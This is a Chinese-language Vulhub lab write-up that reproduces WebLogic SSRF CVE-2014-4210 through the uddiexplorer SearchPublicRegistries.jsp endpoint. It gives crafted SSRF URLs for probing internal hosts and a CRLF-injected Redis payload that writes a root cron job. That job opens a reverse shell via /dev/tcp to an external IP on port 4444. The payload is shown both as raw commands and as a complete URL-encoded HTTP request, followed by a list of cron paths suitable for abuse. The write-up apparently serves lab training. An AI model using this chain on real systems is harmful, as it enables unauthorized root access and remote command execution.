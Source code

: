 # \[Vulhub\] Weblogic SSRF 漏洞（CVE-2014-4210）

## 漏洞复现
环境搭建完成后，访问http://your-ip:7001/uddiexplorer/，无需登录查看 uddiexplorer 应用。

01 探测存活IP

SSRF 漏洞存在于http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp，构造payload:
```
http://10.11.45.150:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://10.11.35.243
```
若 IP 不存在则为如下情况：

## 探测开放端口

通过错误的不同，可暴破出内网 IP 开放的端口。

## 注入HTTP头，利用Redis反弹shell
Weblogic 的 SSRF 有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入%0a%0d来注入换行符，
而某些服务（如 redis）是通过换行符来分隔每条命令，也就说我们可以通过该 SSRF 攻击内网中的 redis 服务器。

首先，通过 ssrf 探测内网中的 redis 服务器，应为这个漏洞是用 docker 环境搭建的，所以 redis 服务器的内网即是
docker 的网段（docker 环境的网段一般是 172.*）：
利用 SSRF 探测内网 redis 是否开放
发送三条重新分发命令，将 shell 脚本写入/etc/crontab，利用计划任务反弹shell：
```
set 1 "\n\n\n\n* * * * * root bash -c 'sh -i >& /dev/tcp/10.11.34.231/4444 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```
转换成URL编码，注意，换行符是“\r\n”，也就是“%0D%0A”。：
`test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.11.34.231%2F4444%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
`
将 url 编码后的字符串触发 SSRF 的域名，发送：
```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.18.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.11.34.231%2F4444%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa HTTP/1.1
Host: 10.11.45.150:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: publicinquiryurls=http://www-3.ibm.com/services/uddi/inquiryapi!IBM|http://www-3.ibm.com/services/uddi/v2beta/inquiryapi!IBM V2|http://uddi.rte.microsoft.com/inquire!Microsoft|http://services.xmethods.net/glue/inquire/uddi!XMethods|; JSESSIONID=BKRkg3JY7T2cpNLFtLNPD3DJvMy1TRrmXBFnYKzJk6tXvnsY7vJS!1942797293
Upgrade-Insecure-Requests: 1
```

成功反弹：

补充一下，可进行利用的cron有以下几个地方：

/etc/crontab 这个是肯定的
/etc/cron.d/* 将任意文件写到该目录下，效果和crontab相同，格式也和/etc/crontab相同。 。
/var/spool/cron/root centos系统下root用户的cron文件
/var/spool/cron/crontabs/root debian系统下root用户的cron文件
